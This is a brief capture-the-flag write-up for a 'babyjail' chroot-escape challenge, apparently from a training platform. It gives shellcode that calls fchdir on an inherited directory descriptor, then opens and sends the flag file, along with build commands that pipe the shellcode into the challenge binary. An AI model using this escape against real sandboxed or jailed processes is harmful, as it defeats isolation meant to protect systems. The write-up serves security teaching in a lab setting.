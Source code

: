 This time, you should use the function `fchdir` instead of `linkat`.
From the Linux manual page, it is written as follows.

> fchdir() is identical to chdir(); the only difference is that the directory is given as an open file descriptor.

Use the following code to solve this problem.
```
fchdir(3);  # Change working directory into the top-level directory.
open("./flag", O_RDONLY);
sendfile(1, 4, 0, 0x80);
```

Running the following commands will lead you to the flag.
```
gcc -nostdlib -static shellcode.s -o shellcode-elf​
objcopy --dump-section .text=shellcode-raw shellcode-elf​
/babyjail_level5_teaching1 / < ~/shellcode-raw
```
